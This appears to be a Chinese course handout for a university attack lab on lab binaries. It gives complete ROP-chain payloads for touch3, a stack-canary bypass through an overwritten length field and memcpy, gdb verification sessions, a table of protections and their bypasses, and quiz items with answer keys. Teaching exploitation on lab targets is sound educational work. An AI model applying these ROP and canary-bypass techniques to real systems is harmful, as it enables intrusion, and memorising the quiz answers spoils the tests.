(gdb) p/x $rdi
$2 = 0x61cc754a
(gdb) continue
Breakpoint 3, touch2 (val=1640789322) at visible.c:40
(gdb) p/x $rdi
$3 = 0x61cc754a⚠ 栈槽永远是 8 字节
第一，所有 Gadget 地址、Cookie、touch2 地址都按 8 字节槽写，少写一个 00 会让后面的数据整体前移。第二，Cookie 是数值，不能写成字符串的 ASCII。第三，pop 会消耗一个槽，所以 Payload 是“Gadget 地址、数据、Gadget 地址、目标”交替，不是把所有地址排在一起。第四，确认运行的是 rtarget，用 ctarget 的地址会立刻崩。
同类变体
若农场里没有直接的 mov %rax,%rdi，可以用 mov %rax,%rdx 加 mov %rdx,%rdi 等多条 Gadget 拼出来；若题目要求写更长的链（先清零、再加减），就把每一步的输入输出槽按顺序排开。Gadget 要落在农场范围内，还要按完整解码、允许指令与副作用检查；测验问“某个地址是否合法”时，先看区间，再看从该地址解码出的指令序列和它改动的寄存器。
3.5 phase 5：ROP 版 touch3 与动态地址计算#
Phase 5 要求在 rtarget 上调用 touch3(字符串指针)。难点在于字符串放在栈上，而 rtarget 开启了 ASLR，栈的绝对地址每次运行都不同，Payload 里不能硬编码这个指针。解决思路是：在 ROP 链运行的时刻动态读取当前 %rsp，再加上一个固定偏移，算出字符串的运行时地址，最后送进 %rdi。
官方解法用 8 个 Gadget 执行位置；本实例的链一共有 10 个 8 字节槽：8 个 Gadget 地址槽、1 个偏移数据槽和 1 个 touch3 地址槽。mov %rax,%rdi 用了两次，所以 10 个槽里对应 9 个不同地址。整条链的数据通路是：mov %rsp,%rax 取当前栈顶；mov %rax,%rdi 把它保存为第一个加数；pop %rax 从栈上取出偏移量 D；通过 mov %eax,%edx → mov %edx,%ecx → mov %ecx,%esi 三次 32 位中转把 D 送到 %rsi；add_xy 的 lea (%rdi,%rsi),%rax 完成加法；再用 mov %rax,%rdi 把结果作为参数；最后 ret 到 touch3。
表 20 Phase 5 用到的 rtarget Gadget
| 指令序列 | 字节 | 地址 | 作用 |
|---|---|---|---|
| mov %rsp,%rax; nop; ret | 48 89 e0 90 c3 | 0x401f84 | 取当前栈顶 |
| mov %rax,%rdi; ret | 48 89 c7 c3 | 0x401f08 | 保存第一个加数 |
| pop %rax; nop; nop; ret | 58 90 90 c3 | 0x401f11 | 取出偏移 D |
| mov %eax,%edx; cmp %dl,%dl; ret | 89 c2 38 d2 c3 | 0x402004 | 32 位中转 |
| mov %edx,%ecx; nop; nop; ret | 89 d1 90 90 c3 | 0x401f63 | 32 位中转 |
| mov %ecx,%esi; and %cl,%cl; ret | 89 ce 20 c9 c3 | 0x401f6e | 送入第二个加数 |
| add_xy 函数入口（先 endbr64） | f3 0f 1e fa … | 0x401f3f | 跳到函数入口执行 |
| lea (%rdi,%rsi),%rax; ret | 48 8d 04 37 c3 | 0x401f43 | lea 本体，也可直接跳 |
| touch3 | — | 0x401d90 | 目标函数 |
找这组 Gadget 时有两个常见卡点。第一，有效指令后面不必紧挨着 c3：像 48 89 e0 90 c3 里的 90 是 nop，cmp %dl,%dl（38 d2）、and %cl,%cl（20 c9）也只改标志位、不破坏链中使用的寄存器，都可以直接“滑过”直到 ret。第二，农场里没有直接的 movq %rax,%rsi，所以不能把偏移直接塞进 %rsi，而是先用 pop %rax 从栈上读出偏移 D，再借 eax → edx → ecx → esi 三级 32 位传送把 D 搬到 %rsi。
偏移 D 的基准点是最容易错的地方。链的第一条 Gadget mov %rsp,%rax 执行时，getbuf 的返回地址已经从栈上弹出，%rsp 指向 B+32。字符串放在 Payload 的第 104 字节（B+104）时，D = 104 - 32 = 72 = 0x48。按槽从 B+24 数到 B+103 共 10 个槽（80 字节），八次 Gadget 的 ret 与一次 pop 数据槽各消耗 8 字节，进入 touch3 时 %rsp = B+104（模 16 为 8，正好是普通函数入口的余数）。若从 B+24 起算 D，会多 8，指针落到字符串后面，输出一段乱码。
图 2 Phase 5 的十个槽与字符串地址（高地址在上）
表 21 Phase 5 的 Payload（共 113 字节；B 为 buf 起点）
| 偏移 | 长度 | 内容（十六进制） | 说明 |
|---|---|---|---|
| 0–23 | 24 | 00 × 24 | 填充 |
| 24–31 | 8 | 84 1f 40 00 00 00 00 00 | mov %rsp,%rax |
| 32–39 | 8 | 08 1f 40 00 00 00 00 00 | mov %rax,%rdi |
| 40–47 | 8 | 11 1f 40 00 00 00 00 00 | pop %rax |
| 48–55 | 8 | 48 00 00 00 00 00 00 00 | D = 0x48 |
| 56–63 | 8 | 04 20 40 00 00 00 00 00 | mov %eax,%edx |
| 64–71 | 8 | 63 1f 40 00 00 00 00 00 | mov %edx,%ecx |
| 72–79 | 8 | 6e 1f 40 00 00 00 00 00 | mov %ecx,%esi |
| 80–87 | 8 | 3f 1f 40 00 00 00 00 00 | add_xy |
| 88–95 | 8 | 08 1f 40 00 00 00 00 00 | mov %rax,%rdi |
| 96–103 | 8 | 90 1d 40 00 00 00 00 00 | touch3 |
| 104–112 | 9 | 36 31 63 63 37 35 34 61 00 | "61cc754a" + NUL |
gdb 在 add_xy 的 lea 处停下时，%rdi 是 B+32、%rsi 是 0x48，%rax 算出的就是字符串地址；继续到 touch3 入口，x/s $rdi 显示正确的字符串：
(gdb) break *0x401f43
(gdb) break *0x401d90
(gdb) run -q -i phase5.raw
Breakpoint 1, 0x0000000000401f43 in add_xy ()
(gdb) info registers rdi rsi
rdi 0xfe7675cea270
rsi 0x48
(gdb) si
(gdb) p/x $rax
$1 = 0xfe7675cea2b8
(gdb) continue
Breakpoint 2, touch3 (sval=0xfe7675cea2b8 "61cc754a") at visible.c:71
(gdb) x/s $rdi
0xfe7675cea2b8: "61cc754a"⚠ 偏移基准、32 位中转与字符串位置
第一，D 从“第一条 Gadget 执行时的 %rsp”算起，也就是 B+32，而不是 buf 起点或返回地址槽。第二，movl 写入会把高 32 位清零，所以非负 D 在 0 到 0xffffffff 之间数值可以保留；这不等于所有大于 2^31 的值都“不安全”，也不等于负偏移可以直接套用。负 D 需要另外的符号处理，地址相加是否有效还要看实际布局。第三，字符串必须放在链之后（高地址），否则会被 hexmatch 的栈帧覆盖。第四，若输出是“Misfire + 一大段乱码”，通常是指针偏大；若是空串，通常是指针落在 0 字节或被踩。在 touch3 入口若看到 %rsp 和 %rdi 差 8，不要盲目把 D 减 8——差 8 往往只是表象，应先用 find /b 确认字符串在栈上的实际地址（搜不到时检查是否按 ASCII 写），再同时核对 pop 数据槽与字符串位置。
同类变体
若 D 超过 0xffffffff 或为负，32 位零扩展链不能直接使用，需要改用 64 位加法 Gadget 或自行处理符号。若农场缺少 mov %rsp,%rax，可以用 push %rsp; pop %rax 等序列，但要说明它的临时写入和净栈变化，不能凭空多算一个永久槽。题目也可能把字符串放在链的前面，此时 D 为负数，必须用符号扩展的加法。
3.6 phase 6：starget 的 Canary 与 memcpy 绕过#
Phase 6 在 starget 上完成 touch3。starget 开启了 Canary：getbuf_withcanary 在 %rbp-0x8 处保存金丝雀，函数返回前比较，若被改就调用 __stack_chk_fail。直接溢出到返回地址必然踩到 Canary，因此不能走 Phase 5 的老路。漏洞在于局部变量的排列：Gets(buf) 的溢出可以改到 buf 上方的 len，而紧接着的 memcpy(logMsg + len, buf, sizeof(buf)) 发生在 Canary 检查之前。
0000000000401e6b <getbuf_withcanary>:
401e6b: push %rbp
401e6c: mov %rsp,%rbp
401e6f: sub $0x120,%rsp
401e76: mov %fs:0x28,%rax
401e7f: mov %rax,-0x8(%rbp)
401e85: movl $0x0,-0x1c(%rbp)
401e8c: lea -0xa0(%rbp),%rax
401e93: mov %rax,%rdi
401e96: call 402159 <Gets>
401e9b: mov -0x1c(%rbp),%eax
401e9e: cltq
401ea0: lea -0x120(%rbp),%rdx
401ea7: lea (%rdx,%rax,1),%rcx
401eab: lea -0xa0(%rbp),%rax
401eb2: mov $0x80,%edx
401eb7: mov %rax,%rsi
401eba: mov %rcx,%rdi
401ebd: call 401140 <memcpy@plt>
401ec2: mov $0x1,%eax
401ec7: mov -0x8(%rbp),%rsi
401ecb: xor %fs:0x28,%rsi
401ed4: je 401edb <getbuf_withcanary+0x70>
401ed6: call 402648 <__stack_chk_fail>
401edb: leave
401edc: ret对应的 C 源码（Canary 由编译器插入，源码里看不到）：
unsigned getbuf_withcanary()
{
int len = 0;
char buf[128];
char logMsg[128];
Gets(buf);
memcpy(logMsg + len, buf, sizeof(buf));
return 1;
}执行时 len=0；Gets(buf) 读入 128 字节缓冲区；memcpy(logMsg + len, buf, 128) 把 128 字节从 buf 搬到 logMsg+len；最后检查 Canary 并返回。栈帧从低到高依次是 logMsg[128]（rbp-0x120）、buf[128]（rbp-0xa0）、len（rbp-0x1c）、Canary（rbp-0x8）、保存的 rbp、返回地址（rbp+8）。
图 3 Phase 6 的变量布局与两次写入范围（高地址在上）
取 len = (rbp+8) - (rbp-0x120) = 0x128 = 296，memcpy 的目标就正好是 rbp+8，也就是返回地址槽。buf 的前 128 字节被复制到 rbp+8 开始的 128 字节，把返回地址和上方的槽全部换成我们设计的 ROP 链，而 rbp-0x8 的 Canary 完全没被碰到。复制发生在 Canary 检查之前，所以检查时金丝雀仍然完好。
Payload 的前 128 字节是 ROP 链，字符串放在第 80 字节（buf[80]，对应复制后的 rbp+88）。因为 memcpy 把 buf[0] 搬到 rbp+8，ret 弹出后第一条 Gadget 执行时 %rsp = rbp+16，所以字符串放在 buf[k] 时偏移总是 D = k - 8（不是 k）；这里 k = 80，故 D = 80 - 8 = 72 = 0x48。链与字符串写完后剩下的 39 字节（89–127）不是额外字段，只是把 buf 补齐到 128 字节 memcpy 边界的填充；接着 128–131 的 4 字节是越过 buf 末尾到 len 之前的占位，第 132–135 字节写 4 字节的 296（28 01 00 00），让 len 生效。
表 22 Phase 6 的 Payload（共 136 字节；相对 buf 的偏移）
| 偏移 | 长度 | 内容（十六进制） | 说明 |
|---|---|---|---|
| 0–7 | 8 | 8b 1f 40 00 00 00 00 00 | mov %rsp,%rax; nop; ret（0x401f8b） |
| 8–15 | 8 | 0f 1f 40 00 00 00 00 00 | mov %rax,%rdi（0x401f0f） |
| 16–23 | 8 | 18 1f 40 00 00 00 00 00 | pop %rax; nop; nop; ret（0x401f18） |
| 24–31 | 8 | 48 00 00 00 00 00 00 00 | D = 0x48 |
| 32–39 | 8 | 0b 20 40 00 00 00 00 00 | mov %eax,%edx（0x40200b） |
| 40–47 | 8 | 6a 1f 40 00 00 00 00 00 | mov %edx,%ecx（0x401f6a） |
| 48–55 | 8 | 75 1f 40 00 00 00 00 00 | mov %ecx,%esi（0x401f75） |
| 56–63 | 8 | 46 1f 40 00 00 00 00 00 | add_xy（0x401f46） |
| 64–71 | 8 | 0f 1f 40 00 00 00 00 00 | mov %rax,%rdi（0x401f0f） |
| 72–79 | 8 | 97 1d 40 00 00 00 00 00 | touch3（0x401d97） |
| 80–88 | 9 | 36 31 63 63 37 35 34 61 00 | "61cc754a" + NUL |
| 89–127 | 39 | 00 × 39 | 填充到 128 字节边界（非字段） |
| 128–131 | 4 | 00 00 00 00 | 填充到 len 之前 |
| 132–135 | 4 | 28 01 00 00 | len = 0x128 = 296 |
gdb 在 getbuf_withcanary 的 memcpy 前后停下，可以直接验证“len=296、Canary 不变、复制后返回地址槽变成第一条 Gadget”：
(gdb) break *0x401e9b
(gdb) break *0x401ec2
(gdb) run -q -i phase6.raw
Breakpoint 1, getbuf_withcanary () at buf_with_canary.c:35
(gdb) p/d *(int*)($rbp-0x1c)
$1 = 296
(gdb) p/x *(unsigned long*)($rbp-0x8)
$2 = 0xed2ba55ac0fb6600
(gdb) continue
Breakpoint 2, getbuf_withcanary () at buf_with_canary.c:44
(gdb) x/4gx $rbp+8
0x...ca8: 0x0000000000401f8b 0x0000000000401f0f
0x...cb8: 0x0000000000401f18 0x0000000000000048
(gdb) p/x *(unsigned long*)($rbp-0x8)
$3 = 0xed2ba55ac0fb6600⚠ len 的宽度、位置与字符串边界
第一，len 是 int，占 4 字节；若写成 8 字节，会多覆盖 buf+136 之后的邻接内存，但不会让 len 的起点提前。按 4 字节写 28 01 00 00。第二，len 在 buf+132，所以文件长度必须是 136 字节：前 128 字节是链，接着 4 字节填充，最后 4 字节是 296；若在 gdb 里看到 len 读成莫名大数（如 32767），先用 pwd、wc -c、xxd 排查旧 .raw 或不同终端目录。第三，字符串必须完整落在被复制的 128 字节内：如果放在 buf+120，第 9 个字节（NUL）在 buf+128，超出了 memcpy 的 128 字节范围，复制后字符串没有结尾。第四，starget 的农场与 rtarget 逐字节相同、地址整体加 7，Gadget 地址不要抄错。
同类变体
若布局改变，len 的公式是“返回地址槽地址减 logMsg 起点”：len = (rbp+8) - (rbp-0x120) = 296。sizeof(logMsg)=128 是数组大小，不是 logMsg 相对 rbp 的起点偏移；换布局必须重新读反汇编，不能直接套 (rbp+8)-sizeof(logMsg)。若 Canary 位于数组下方而不是上方，这种“改 len 绕检查”的布局就不成立，需要另找局部变量。若 memcpy 的长度不是 128 而是“用户可控长度”，字符串与链的排布也要随之调整。
3.7 六关对照与通用解题流程#
把六关放在一起看，会发现它们的“骨架”完全相同，区别只在防护和参数形式。下表可以作为做题时的对照卡：先确定程序，再确定目标函数入口，最后按“填充—槽—目标”的顺序排字节。
表 23 六个 Phase 的对照
| Phase | 目标 | 关键入口 | 返回地址/槽的用法 | 一句话方法 |
|---|---|---|---|---|
| 1 | touch1() | 0x401ca8 | 24 填充 + 8 地址 | 只改返回地址 |
| 2 | touch2(cookie) | 0x401cdc | 24 填充 + 指向 buf | 注入 13 字节代码设 %rdi |
| 3 | touch3("cookie") | 0x401e02 | 24 填充 + 指向 buf | 注入代码 + 字符串放 B+32 |
| 4 | touch2(cookie) | 0x401c6a | 24 填充 + 4 个槽 | pop rax / mov rax,rdi 两个 Gadget |
| 5 | touch3(指针) | 0x401d90 | 24 填充 + 10 个槽 | 动态算地址：rsp + 0x48 |
| 6 | touch3(指针) | 0x401d97 | memcpy 复制链 | 改 len=296，借 memcpy 搬家 |
通用流程可以固定为六步。第一步读题确认程序与目标函数，查清地址是哪个二进制的。第二步读 getbuf 或 getbuf_withcanary 的序言，结合 buf 地址的形成方式与尾声，画出“buf 起点—返回地址槽—调用者栈帧”的账本，算出实际地址差；不要只照抄 sub 的立即数。第三步确定要放进返回地址槽的值：Phase 1 是函数地址，Phase 2/3 是 buf 地址，Phase 4/5 是第一个 Gadget 地址，Phase 6 由 memcpy 决定。第四步按目标函数的参数要求准备数据：数值走寄存器或栈槽，字符串放在高地址。第五步生成 .txt 与 .raw，用 wc -c 和 xxd 核对长度与结尾。第六步用 -q 跑，按“No exploit / 段错误 / Misfire / canary”四类症状定位；通过后再提交。
3.8 常见追问：为什么不能直接跳到 touch3 之后#
测验常问“能不能把返回地址直接写成 touch3 的地址，再在栈上放字符串？”。在 Phase 1 的框架下确实可以跳到 touch3，但它的第一个参数 %rdi 不是我们控制的：getbuf 返回时 %rdi 仍指向 buf（或已被 Gets 改成别的值），而不是字符串地址。只有 Phase 3 的注入代码能显式执行 mov $字符串地址,%rdi；Phase 5 则用 Gadget 在运行时算出地址。Phase 2 同理，直接跳到 touch2 时 %edi 是残留值，必须先把 Cookie 放进去。这也是为什么“只改返回地址”只能解决 Phase 1：后续关卡考的是参数与控制流的配合。
第四部分 可复算的变体与防护边界#
这一部分讨论“换一个缓冲区、换一个 Cookie、换一组 Gadget”时仍然适用的方法。原则是先写清前提，再给公式；本实例的地址和数值只作为算例，不包装成通用规则。
4.1 布局与参数变化#
所有偏移都从实际地址得到，最稳妥的写法是返回地址槽地址减 `buf` 起点。sub 的立即数只说明函数在这次序言里分配了多少空间；如果 buf 是通过 lea 从另一处取得的，或者序言里还保存了寄存器，就不能只照抄立即数。下面给一个含保存寄存器的例子：若 getbuf 的序言是 push %rbx; sub $0x30,%rsp，设 %rsp（sub 之后）为 C，buf 由 lea 0x10(%rsp),%rdi 取得，那么 buf = C+0x10，返回地址槽要按“压栈后的位置”重新算；只有把 push、sub、lea 和尾声全部追踪完，才能得到 buf 到返回地址的真实距离。
Cookie 改变时要替换三处：touch2 注入代码里的数值立即数、touch3 的字符串（固定八位十六进制字符加 00，保留前导零）、以及 Phase 4 栈槽里的 Cookie 数值。数值按小端，字符串按字符正序；Cookie 的字符串长度由格式决定，不能把不同长度的十六进制串直接混用。有效攻击串长度与 raw 文件长度也要分开：本材料的 raw 文件都多一个末尾换行，具体数值见 1.2 节。
4.2 Farm 与数据通路变化#
农场的本质是一堆编译器生成的函数，它们的机器码里偶然包含有用的指令序列。x86-64 是变长指令集，同一条长指令的中间字节可能从另一个偏移开始解码成完全不同的指令。例如 c7 07 91 48 89 c7 c3 从 48 89 c7 起就是 mov %rax,%rdi; ret。找 Gadget 的方法不是逐条读函数，而是按目标字节模式在整个农场里搜索，再用 objdump 从候选地址重新反汇编确认。
判断某个 Gadget 是否可用有四步：地址是否在课程允许的农场范围内；从该地址解码出的完整序列是否以 ret 结束；指令和寄存器是否在 handout 允许的集合内；它对内存、标志位和链中其他寄存器的副作用是否能接受。start_farm 到 mid_farm 是 handout 对 Phase 4 给出的提示范围，不是可以跳过其余检查的许可证；功能性 nop（如 and %cl,%cl）不改变寄存器值，但可能改变标志位，链若依赖标志就不能随便插入。
若农场缺少直接赋值 Gadget，替代链必须给出初始状态和副作用。例如没有 mov %rax,%rdi，但有 mov %rax,%rdx 与 mov %rdx,%rdi，可以用“pop %rax; ret → mov %rax,%rdx; ret → mov %rdx,%rdi; ret”把栈上的值送到 %rdi；此时 %rdx 被有意改掉，链中不能依赖它。反例是“先清空 %rax，再 pop %rax，再 add %rax,%rdi”：如果 %rdi 不是零，得到的是旧 %rdi 加新值，不是把新值赋给 %rdi；清空 %rax 也被随后的 pop 覆盖。除非另证 %rdi 为零，这种算术链不能当作通用赋值。
4.3 栈对齐#
x86-64 System V ABI 要求 call 之前 %rsp % 16 = 0，因此被调用函数刚入口、尚未执行序言时通常 %rsp % 16 = 8。判断一条 ROP 链是否满足，不能只数 Gadget 个数，要按“入口模值 + 每条指令的栈增量”逐项列账：每个 ret 消费 8 字节，pop 也消费 8 字节数据槽，push 写 8 字节，push 目标; ret 对 %rsp 的净变化为 0。nop 不改变 %rsp，不能用来“对齐栈”。
以本讲义 Phase 5 为算例：getbuf 的 ret 弹出后 %rsp = B+32，进入 touch3 时是 B+104，模 16 为 8，正好是普通函数入口的余数。若在链中插入一个单独的 ret Gadget 当“垫片”，它会让后续所有取数和字符串基准前进 8 字节：进入 touch3 变成 B+112，模 16 为 0，反而不符合普通入口；同时 D 要减去 8、字符串位置也可能要移动。插入垫片后必须重新算整条链，不能只改一个数字。
⚠ 对齐异常的表现与误判
程序可能已经执行到 touch2/touch3 的第一条指令，却在 printf 或 memcpy 内部崩溃，backtrace 显示 libc 的 movaps；这通常提示栈没对齐。但并非所有 libc 崩溃都是对齐问题，也可能是参数指针错、长度错或字符串被踩。先按账本核对模 16，再检查寄存器和内存。
4.4 防护边界#
理解每种防护“防什么、不防什么”，比背名词更重要。NX 让栈上的字节不能当代码执行，但它不阻止复用已有代码的 ROP，也不说明所有缓冲区溢出利用都失败；ASLR 让栈和库的地址随机化，但非 PIE 代码段的相对偏移仍保留，信息泄漏可以进一步绕过；Canary 在函数返回前比较哨兵值，挡住“直接覆盖返回地址”，但挡不住“只改局部变量”的绕行；PIE 让整个程序可重定位，地址随机化启用时主程序基址会变化，但同一函数内部的相对偏移不变；CET 的影子栈与间接分支跟踪限制 ret 和间接跳转的目标，但需要硬件、编译器和运行环境共同启用，代码里出现 endbr64 不等于 CET 已经在运行时生效。
表 24 防护机制与对应的攻击面
| 机制 | 挡住什么 | 仍可能被什么绕过 |
|---|---|---|
| NX / DEP | 栈、堆上的注入代码执行 | ROP、ret2libc 等复用已有代码 |
| ASLR | 硬编码的栈/库地址 | 信息泄漏、非 PIE 代码段、地址猜测 |
| Canary | 直接改写返回地址 | 只改局部变量、先泄漏再伪造 |
| PIE | 固定代码地址 | 相对偏移、信息泄漏后计算基址 |
| CET | 非法的 ret 与间接跳转 | 未启用时的旧路径、兼容性限制 |
从攻防演进看，Phase 4–6 是从“注入代码”到“复用代码”的转折：NX 让注入失效，ROP 用已有代码重新组织计算；Canary 让直接改返回地址失效，Phase 6 用局部变量和 memcpy 把链搬到高地址。更高阶的 ret2libc、ret2csu 是同一思路的延伸，本讲义只要求理解“防护改变攻击面，但很少单独终结攻击”这一层，不要求背高阶利用步骤。
第五部分 测验题型与单选例题#
学期末的 Lab 测验是纸笔考试，全部是单选题，每个实验 5 题、每题 2 分。Attack Lab 的题不需要运行目标程序，而是把 getbuf 的汇编、一张 Payload 表或一段农场字节印在卷面上，问偏移、地址、栈槽的排布；也有题目直接考工具和概念，四个选项各是一条说法，选出正确或错误的那一条。2025 年 Attack Lab 的 5 道题，分别考 hex2raw 的用法、目标程序的漏洞与防护（nop sled、ASLR、金丝雀与 ROP 的关系）、gdb 的用法、getbuf 的栈帧大小，以及一份 Phase 3 题解中的缓冲区大小与寄存器的值。
这类题的核心技能是“记栈账”：从 getbuf 的入口开始，逐条记下 push、sub、lea、ret 让 %rsp 变成了多少，每个数据放在哪个地址。选项中的错误答案大多来自记账时漏掉或多算的一项，比如把 sub 的立即数直接当成到返回地址的距离、忘了 push 的 8 字节、把“当前指令的地址”当成 RIP 相对寻址的基准。本部分的数值都来自前面各节在 x86-64 上实际运行验证过的结果，以及据此做的地址算术。
5.1 偏移与栈账本#
例 1（单选）某目标的 getbuf 序言是 push %rbx; sub $0x30,%rsp，buf 由 lea 0x10(%rsp),%rdi 取得（%rsp 为 sub 之后的值）。buf 起点到返回地址槽的偏移，以及 getbuf 的 ret 执行后 %rsp 相对 buf 的位置，分别是：
A. 0x38 与 0x40 B. 0x30 与 0x38 C. 0x28 与 0x30 D. 0x20 与 0x28
答案
C
设入口时（call 压入返回地址之后）%rsp = E，返回地址槽就在 E。push 后为 E – 8，sub 后为 S = E – 0x38，buf = S + 0x10 = E – 0x28，所以偏移是 0x28 = 40。ret 弹出返回地址后 %rsp = E + 8，相对 buf 是 0x30 = 48。B 把 sub 的立即数 0x30 直接当成了偏移，这是最典型的错误：sub 只说明分配了多少空间，buf 的位置要看 lea。A 是 push 与 sub 合计的 0x38，忽略了 lea 的 0x10。D 漏算了 push 的 8 字节。
例 2（单选）本实例 ctarget 的 getbuf 只有 sub $0x18,%rsp 一条序言，buf 就是 sub 之后的 %rsp。要让 Gets 写入的数据恰好开始覆盖返回地址，Payload 前面需要多少字节的填充？
A. 24 B. 32 C. 16 D. 40
答案
A
sub 之后 %rsp 比返回地址槽低 0x18 = 24 字节，buf 从这里开始，所以前 24 个字节填满 buf 和它与返回地址之间的空间，第 25 到 32 字节就落在返回地址槽上（第 3.1 节）。B 把返回地址槽本身的 8 字节也算进了填充；C 只算了 16 字节；D 多算了一个保存寄存器，而这个 getbuf 并没有 push。与例 1 对比可以看出，只有在没有 push、并且 buf 就是 sub 之后的 %rsp 时，sub 的立即数才恰好等于填充长度。
5.2 机器码与小端法#
例 3（单选）指令序列 movq $0x61cc754a,%rdi; pushq $0x401e02; retq 的机器码是：
A. 48 c7 c7 4a 75 cc 61 68 02 1e 40 00
B. 48 c7 c7 61 cc 75 4a 68 00 40 1e 02 c3
C. 48 c7 c7 4a 75 cc 61 68 02 1e 40 00 00 00 00 00 c3
D. 48 c7 c7 4a 75 cc 61 68 02 1e 40 00 c3
答案
D
movq $imm32,%rdi 编码为 48 c7 c7 加 4 字节立即数，pushq $imm32 编码为 68 加 4 字节立即数，retq 是单字节 c3；立即数按小端法从低字节写起，共 13 字节。这与第 3.2、3.3 节注入代码的写法相同（0x401e02 是 touch3 的地址），那些 Payload 都已在目标程序上运行通过。B 把两个立即数都按大端法写了。C 给 push 写了 8 字节的立即数：push 执行时确实占用 8 字节的栈空间，但指令里的立即数字段只有 4 字节，执行时再符号扩展。A 漏了 ret，注入的代码执行完 push 之后会继续执行后面的字节，而不会用 ret 跳到刚压入的 touch3 地址。
5.3 Gadget 与 ROP 链#
例 4（单选）农场中地址 0x402a00 处的字节依次是 c7 07 91 48 89 c7 c3 58 c3。可以作为 mov %rax,%rdi; ret 使用的 Gadget 地址是：
A. 0x402a00 B. 0x402a03 C. 0x402a04 D. 0x402a07
答案
B
48 89 c7 是 mov %rax,%rdi 的编码，后面紧跟 c3，所以从 0x402a03 开始执行，就是 mov %rax,%rdi; ret。A 从函数边界 0x402a00 开始，会先执行 c7 07 91 …，那是一条完全不同的指令；Gadget 不必从函数边界开始，这正是 ROP 可以“借用”指令片段的原因。C 从 89 开始解码，得到的不是同一条指令。D 处的 58 c3 是 pop %rax; ret，是另一个 Gadget。
例 5（单选）用例 4 中的两个 Gadget（0x402a07 处的 pop %rax; ret 与 0x402a03 处的 mov %rax,%rdi; ret）把 Cookie 作为 touch2 的参数。返回地址槽及其上方的栈槽，从低地址到高地址应依次放：
A. 0x402a03、0x402a07、Cookie、touch2 的地址
B. 0x402a07、Cookie、0x402a03、touch2 的地址
C. Cookie、0x402a07、0x402a03、touch2 的地址
D. 0x402a07、0x402a03、Cookie、touch2 的地址
答案
B
getbuf 的 ret 弹出第一个槽，跳到 pop %rax; ret；pop 弹出紧接着的下一个槽，所以 Cookie 必须放在 pop Gadget 的地址之后；它的 ret 再弹出 mov Gadget 的地址，mov 把 Cookie 搬进 %rdi，最后的 ret 跳到 touch2。A 先执行 mov，此时 %rax 里还不是 Cookie。C 把 Cookie 放在了返回地址槽里，getbuf 会试图跳到 Cookie 这个数值所表示的地址。D 让 pop 弹出了 mov Gadget 的地址，Cookie 反而被当成了下一个返回地址。
5.4 字符串与栈帧复用#
例 6（单选）Phase 3 中，字符串紧跟在注入代码之后放在 buf 内部时，程序能进入 touch3，但比较失败。关于原因和修正，正确的一项是：
A. hexmatch 只用 sub 分配空间，并不写入，问题出在 Cookie 写错了
B. 字符串太短，应当在后面补满 0
C. 字符串末尾的 00 是多余的，strncmp 只比较可见字符
D. touch3 与 hexmatch 继续使用栈，实际写入覆盖了 buf 内部的字符串；应把字符串放到 getbuf 返回后 %rsp（B + 32）及更高的地址
答案
D
touch3 先 push %rbx，再调用 hexmatch；hexmatch 再压寄存器、保存 Canary、把 %rsp 减少 0x80 并写局部数组，这些实际写入覆盖了 buf 内部和更低的地址（第 3.3 节）。字符串放在 B + 32 或更高，就在这些写入之上，不会被踩。B 与原因无关。C 不对：hexmatch 用 strncmp 比较 9 个字节，第 9 个字节正是字符串的结束符，末尾的 00 必须有。A 说反了：判断是否被覆盖要看实际写入的指令，而这里恰恰有大量写入；“只是 sub 改变了 %rsp”并不等于下面的字节都被写坏，但也不能据此认为什么都没写。
5.5 防护机制#
例 7（单选）关于防护机制，正确的一项是：
A. 栈不可执行（NX）阻止栈上注入的代码执行，但返回导向编程可以复用程序中已有的代码，仍然能利用溢出
B. 开启地址随机化（ASLR）后，ROP 一定失败
C. 开启栈金丝雀后，所有缓冲区溢出都被阻止
D. PIE 会改变同一函数内各条指令之间的相对偏移
答案
A
A 正是 Phase 4、5 的情形：rtarget 的栈不可执行，攻击者改用农场中已有的指令片段。B 不对：ASLR 随机化的是地址，代码内部的相对偏移不变，配合信息泄漏仍可计算出 Gadget 的位置；本实例中代码段也没有随机化。C 不对：金丝雀主要保护返回地址，覆盖它之前的局部变量仍可能改变程序的行为，Phase 6 覆盖 len 就是例子。D 说反了：PIE 改变加载基址，同一函数内的相对偏移保持不变。
例 8（单选）关于本学期的三个目标程序（第 1.1 节），正确的一项是：
A. starget 的栈是可执行的
B. rtarget 的 getbuf 入口有栈金丝雀
C. ctarget 的 getbuf 所在的栈页可执行、栈位置稳定，所以可以注入机器码
D. 三个程序的栈地址都是随机化的
答案
C
按第 1.1 节的表，ctarget 栈可执行、本实例栈位置稳定、入口无金丝雀，用于 Phase 1–3 的代码注入。rtarget 开启了 NX 和栈地址随机化，但 getbuf 入口没有金丝雀，所以 B 不对；starget 同样开启 NX，并在 getbuf_withcanary 中加了金丝雀，A 不对；ctarget 的栈位置是稳定的，D 不对。注意这张表说的是“漏洞入口”的情况：ctarget 中的 hexmatch 等函数实际带有栈保护，不能说整个程序都没有金丝雀。
5.6 工具的用法#
例 9（单选）关于 hex2raw，说法错误的一项是：
A. ./hex2raw < phase1.txt > phase1.raw 把十六进制文本转换成字节流并保存
B. 文本中可以写 C 风格的注释，标注每一段的用途
C. 文本中的空格和换行只起分隔作用，不会进入字节流
D. 每次修改了 phase1.txt，都要重新编译 hex2raw 才能得到新的字节流
答案
D
hex2raw 是一个现成的转换工具，它从标准输入读文本、向标准输出写字节，改了文本只要重新运行一次即可，与编译无关（第 1.2 节）。A 是标准用法，用管道 cat phase1.txt | ./hex2raw 也一样。B、C 都是第 1.2 节说明的行为：注释会被跳过，空白只用于分隔，00 才会产生一个零字节。
例 10（单选）运行目标程序时的 -q 和 -i 两个选项，正确的说法是：
A. -q 表示关闭程序的全部输出
B. -q 表示只在本地校验、不向评分服务器发送结果；-i FILE 表示从文件读入输入
C. -i 表示交互模式，从键盘逐行读入
D. 不加 -q 运行也不会向服务器发送任何请求
答案
B
第 1.4 节说明，三个目标程序都支持 -q（本地模式）和 -i FILE（从文件读输入）；本地反复试验时始终加 -q。A 是最常见的误解，-q 并不关闭输出，程序照样打印 Cookie 和结果。C 把 -i 理解反了。D 不对：去掉 -q 才会连接课程服务器。在 gdb 中运行时也一样，写成 run -q -i phase1.raw。
5.7 综合题：偏移与对齐#
例 11（单选）某 rtarget 的 getbuf 与本讲义相同（buf 起点为 B，getbuf 的 ret 执行后 %rsp = B + 32）。Phase 5 中，第一条读取 %rsp 的 Gadget 在 %rsp = B + 32 时执行，字符串改放在 B + 120。链中加到栈地址上的偏移 D 应为：
A. 96 B. 120 C. 88 D. 80
答案
C
